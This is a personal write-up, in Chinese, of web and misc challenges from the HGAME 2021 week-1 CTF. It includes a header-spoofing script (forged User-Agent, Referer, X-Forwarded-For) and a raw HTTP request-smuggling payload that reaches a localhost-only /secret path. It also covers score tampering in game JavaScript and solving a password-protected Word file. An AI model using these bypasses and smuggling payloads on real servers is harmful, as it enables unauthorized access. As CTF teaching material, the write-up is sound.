HAME2021-week 个人WP

昵称：Err0r

<!-- more -->

这是week1，做了Web和部分Misc，后续会整合成一篇文章(先让我水着)



**由于某些原因，以后会注重原理上的研究**


---

## Web

###  Hitchhiking_in_the_Galaxy

题目描述： 第一次在银河系里搭顺风车，要准备啥，在线等，挺急的 

题目地址： [http://hitchhiker42.0727.site:42420](http://hitchhiker42.0727.site:42420/) 



抓包看看顺风车啥样



状态码405Method Not Allowed

对于任何客户端请求都要进行一套流程，即DNS解析域名返回IP，打开IP套接字(socket)连接IP，再通过套接字写HTTP数据流，最后从WEB服务器接受响应的HTTP数据流。而405状态码就是最后一步生成的，即服务器不响应这种请求方式，请求方式有GET/POST/HEAD/PUT等，换成POST看看。

> 注意:在burpsuite里面，右键改变请求方式即可
>
> 

随后提示`只有使用"无限非概率引擎"(Infinite Improbability Drive)才能访问这里～`



这里只要改UA就行了，User-Agent 简单来说就是告诉服务器访问者是通过什么工具来请求的，添加`Infinite Improbability Drive`或者直接删掉UA只加这个也可以

随后提示

```
你知道吗？<a href="https://github.com/wuhan005">茄子</a>特别要求：你得从他的<a href="https://cardinal.ink/">Cardinal</a>过来
```



这里是要改Referer，简单来说就是告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用于处理，用法一般是为了防外连接，直接用`<a href="">`，`用Submit或<input type="image">提交的表单(POST或GET)`，或者`使用JavaScript提交的[表单](https://baike.baidu.com/item/表单)(POST或GET)`都是会带上Referer，当然伪造也很简单。

最后提示`flag仅能通过本地访问获得`



很简单的XFF，XFF就是表示客户端最原始的IP地址，也是很容易伪造



python脚本如下

```python
# -*- coding: utf-8 -*-
"""
@Time ： 2021/2/6 15:57
@Auth ： gyy
@Blog ：http://err0r.top

"""
import requests

url = "http://hitchhiker42.0727.site:42420/HitchhikerGuide.php"

headers = {
    "User-Agent" : "Infinite Improbability Drive",
    "Referer" : "https://cardinal.ink/",
    "X-Forwarded-For" : "127.0.0.1"
}

res = requests.post(url,headers = headers).text
print(res)
```

看着直观点


---

###  watermelon

题目描述： 简单且上头的游戏 

题目地址 ： http://watermelon.ryen.xyz:800/ 

紧跟潮流的小游戏，作者把源码公开了，所以有很多二创。抢了个一血


手快2333


看到小游戏题，第一眼看js，github搜一圈了解到这个游戏的源码在./src/project.js。但是代码四千行，因为游戏开源，所以很容易能找到分析的源码资料，[参考链接](https://www.cnblogs.com/xuanyu-10-18/p/14340204.html)，直接搜到控制分数的代码，改掉



可以看到这一块3436行`default.score`是计分块，改成+999999保存，然后把游戏玩结束弹flag




---

### 宝藏走私者

题目描述： 

**资料：https://paper.seebug.org/1048/**
宝藏走私者 Switch 喜欢偷盗并将奇特的宝藏走私到一些黑市商家手中。
为了阻止其继续作恶，警探 Liki 奉命将 Switch 抓捕归案。
调查过程中，Liki 发现 Switch 将一个秘密藏在了一个私人服务器中。
这或许会成为后续追查 Switch 的重大线索，你能找到这个秘密吗？ 

题目链接： [http://thief.0727.site:80](http://thief.0727.site/) 

**hint: 注意留意服务器信息** 


HTTP请求走私，资料里讲的很详细，建议仔细读一下，这里不做过多阐述

payload：

```
GET / HTTP/1.1
Host: thief.0727.site
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 95
Transfer-Encoding: chunked

0

GET /secret HTTP/1.1
Content-Length: 30
Host: thief.0727.site
Client-IP: 127.0.0.1

1
```




---

### 智商检测鸡

题目描述： 又有谁不爱高数呢？反正我不爱（请使用firefox浏览器打开题目） 

题目地址： http://r4u.top:5000/ 


又到了写脚本环节，首先看下题目



我大概是假的大学生

先找题目，全是ax+b的形式，那就挺好办的，找源码看看怎么取数字



应该还是挺好取的，但是开始写脚本发现GET请求不到，应该是对接api的，果然在Sources里面找到了个`fuckmath.js`

```js
function getStatus(){
    $.ajax({
        type:"GET",
        url: "/api/getStatus",
        dataType:"json",
        success:function(data){
            let solving = data['solving']
            $("#status").text(solving);
            if(solving === 100)
                getFlag();
        }
    });
}

function getQuestion(){
    $.ajax({
        type: "GET",
        url: "/api/getQuestion",
        dataType: "json",
        xhrFields: {
            withCredentials: true
        },
        crossDomain: true,
        success:function(data){
            $('#integral').html(data['question']);
        }
    });
}

function getFlag(){
    $.ajax({
        type: "GET",
        url: "/api/getFlag",
        dataType: "json",
        success:function(data){
            $('#flag').html(data['flag']);
        }
    });
}

function init(){
    getQuestion();
    getStatus();
}

function submit(){
    $.ajax({
    type: "POST",
    url: "/api/verify",
    data: JSON.stringify({answer:parseFloat($('#answer').val())}),
    dataType: "json",
    contentType: "application/json;charset=utf-8",
    xhrFields: {
        withCredentials: true
    },
    crossDomain: true,
    success: function(data) {
        console.log(data);
        if (data['result'] === true) {
            init();
            $('#alert').html(`
                <div class="alert alert-success">\n
                    <strong>Right!</strong>\n
                </div>`)
        } else {
            $('#alert').html(`
                <div class="alert alert-danger">\n
                    <strong>Wrong!</strong>\n
                </div>`)
        }
    }
});
}
```

应该是通过`./api/getStatus`检查做题情况，`./api/getQuestion`加载题目，`./api/verify`交答案，最后`./api/getFlag`拿flag

直接访问`./api/getFlag`看看？



被骂了555...应该是检查session看做题情况，其他都访问一下看看





最后确认答案是`answer`，开始写脚本



赶时间，没搞正则，凑合着用用吧，蹩脚编程勿喷2333

payload:

```python
# -*- coding: utf-8 -*-
"""
@Time ： 2021/1/30 21:20
@Auth ： gyy
@Blog ：http://err0r.top

"""
import requests
from sympy import symbols, integrate
import json

url = "http://r4u.top:5000"
# print(requests.get(url))
session = requests.session()


def jifen(shangxian, xiaxian, a, b):
    x = symbols("x")
    A = integrate(a * x + b, (x, xiaxian, shangxian))
    return A


def req(url, data):
    if data == "get":
        res = session.get(url, headers={
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0"}).content.decode(
            'utf8')
        return res.replace("{", "").replace("}", "").replace("\"question\":\"<math>", "").replace("</math>\"}", "")
    else:
        res = session.post(url, data=json.dumps(data), headers={"Content-Type": "application/json"}).content.decode(
            'utf8')
        return res


def run():
    res = req(url + "/api/getQuestion", "get").split("<mrow>")
    # print(res)
    xiaxian = int(
        res[2].replace("<mo>", "").replace("</mo>", "").replace("<mn>", "").replace("</mn>", "").replace("</mrow>", ""))
    # print(xiaxian)
    shangxian = int(
        res[3].split("</msubsup>")[0].replace("<mo>", "").replace("</mo>", "").replace("<mn>", "").replace("</mn>",
                                                                                                           "").replace(
            "</mrow>", ""))
    # print(shangxian)
    a = int(
        res[3].split("(")[1].split("x")[0].replace("<mo>", "").replace("</mo>", "").replace("<mn>", "").replace("</mn>",
                                                                                                                "").replace(
            "</mrow>", "").replace("<mi>", ""))
    # print(a)
    b = float(
        res[3].split("+")[1].split(")")[0].replace("<mo>", "").replace("</mo>", "").replace("<mn>", "").replace("</mn>",
                                                                                                                "").replace(
            "</mrow>", ""))
    # print(b)
    ans = jifen(shangxian, xiaxian, a, b)
    print(ans)
    data = {"answer": str(ans)}
    upans = req(url + "/api/verify", data)
    print(upans)


if __name__ == '__main__':
    for i in range(0, 100):
        run()
    print(session.get(url + "/api/getFlag").content.decode('utf8'))
    #print(session.cookies)
```

一 键 获 取 flag




---

### 走私者的愤怒

题目描述：

 **本题为宝藏走私者的更改版本，考点相同，请先做出宝藏走私者**
Liki 日记：
2020年2月2日：
今天警局寄来一封信，是走私者 Switch 寄来的，信里只有一句话
**“我最讨厌顺风车，我将带来我的愤怒”**
真是让人摸不着头脑......
我看不懂，但我大受震撼。 

题目描述： [http://police.liki.link](http://police.liki.link/) 


原因是web3能上车了2333

相同payload，改改host就行




---

## Misc

misc随缘做做了，一周三场比赛有点忙


---

### Base全家福

题目描述：

新年即将来临之际，Base家族也团聚了，他们用他们特有的打招呼方式向你问了个好，你知道他们在说什么吗？ R1k0RE1OWldHRTNFSU5SVkc1QkRLTlpXR1VaVENOUlRHTVlETVJCV0dVMlVNTlpVR01ZREtSUlVIQTJET01aVUdSQ0RHTVpWSVlaVEVNWlFHTVpER01KWElRPT09PT09
**本次比赛为招新赛，请各位选手不要在当周比赛进行期间至结束后24小时内发布当周比赛题目的writeup** 

题目地址：[https://www.baidu.com](https://www.baidu.com/) 很强啊

base64+base32+base16 不解释


---

吐槽下MISC2

压缩包密码知道是啥嘛？


23333没错就是的

misc3好像是流量包，能提出来一张几M的图片，分析图片


---

### Word RE:MASTER

题目描述： timmix不知所踪，只留下了两个word文档，作为word专家的你能帮忙找出他的去向吗？ 

题目链接：https://1.oss.hgame2021.vidar.club/Word_REMASTER_e3c365a2c0edb60fbb7152279a31dafd.zip


其实我以前出过一个Word的Misc，有人记得嘛2333

两个word文档，先看属性



估计另一个有密码，直接以压缩包形式打开

很轻易有个`word/password.xml`

